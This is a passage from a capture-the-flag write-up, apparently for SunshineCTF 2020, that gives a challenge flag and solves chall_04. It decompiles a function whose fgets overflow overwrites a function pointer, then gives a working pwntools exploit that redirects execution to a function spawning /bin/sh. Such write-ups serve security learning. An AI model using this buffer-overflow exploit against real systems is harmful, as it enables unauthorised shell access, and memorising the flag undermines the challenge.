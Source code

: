 ```sh
sun{warmness-on-the-soul-3b6aad1d8bb54732}
```

## chall_04
---
Skipping ahead to challenge 4 since it is similar to 2.

Decompilation:

```c
void vuln(void)

{
  char local_48 [56];
  code *local_10;
  
  fgets(local_48,100,stdin);
  (*local_10)();
  return;
}

void win(void)

{
  system("/bin/sh");
  return;
}

```

No using `gets` this time around! There is another kind of vulnerability here though. Notice how `fgets` is reading 100 bytes into `local_48`, which is a 56 byte array. The leftover input can be used to overwrite local_10 and change where the function jumps to.

Exploit:
```python
#!/usr/bin/env python3

from pwn import *

context.binary = ELF('./chall_04')

if args.REMOTE:
    io = remote('chal.2020.sunshinectf.org', 30004)
else:
    io = process(context.binary.path)

print(io.recvline())
io.sendline('throwaway')

buffer = 'A' * 56
payload = p64(0x04005b7) # address of win function

exploit = flat(buffer, payload)
print("Sending: ", exploit)
io.sendline(exploit)

io.interactive()
```
